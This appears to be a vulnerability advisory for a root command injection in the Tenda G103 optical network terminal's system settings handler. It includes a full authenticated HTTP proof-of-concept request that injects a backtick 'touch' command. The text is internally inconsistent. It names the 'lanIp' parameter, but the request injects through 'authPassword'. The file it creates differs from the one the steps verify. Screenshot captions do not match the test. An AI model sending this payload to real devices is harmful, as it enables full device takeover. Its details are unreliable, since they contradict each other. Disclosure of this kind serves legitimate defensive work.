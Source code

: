 # Tenda G103 Command Injection Vulnerability in `lanIp` Parameter of `action_set_system_settings` (system.lua)

## Overview

A command injection vulnerability exists in the `action_set_system_settings` function of the `system.lua` file in Tenda G103 GPON optical network terminals. The vulnerability arises due to improper sanitization of the `lanIp` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this to execute arbitrary system commands with root privileges, leading to full device compromise.

## Details



*   **Vendor**: Tenda

*   **Product**: G103_V1.0.0.5

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: https://tenda.com.cn/material/show/2615

*   **Affected Component**: `system.lua` (LuCI controller)

*   **Affected Function**: `action_set_system_settings`

*   **Affected Parameter**: `lanIp`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, sensitive data leakage, device configuration tampering, or complete takeover

## Vulnerability Analysis

The `action_set_system_settings` function handles the `lanIp` parameter (used to configure the LAN interface IP address). The parameter is directly passed to system commands such as `ifconfig`, `fw_setenv`, and `uci` without sanitization or validation.

Key vulnerable code in `system.lua`:

![PoC 2 Result: Root Directory Listing](./imgs/0.png)

Attackers can inject arbitrary commands by including shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in the `lanIp` parameter. These characters are not filtered, allowing the injected commands to be parsed and executed by the system shell.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/set_system_settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 40
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive
 
authPassword=1`touch$IFS/tmp/setting.txt`
```

#### Execution Steps:

1.  Send the above POST request with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI or another injected command) and verify the existence of `/tmp/lanip_inject.txt`.

#### Expected Result:

The file `/tmp/lanip_inject.txt` is created, confirming successful execution of the injected `touch` command.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

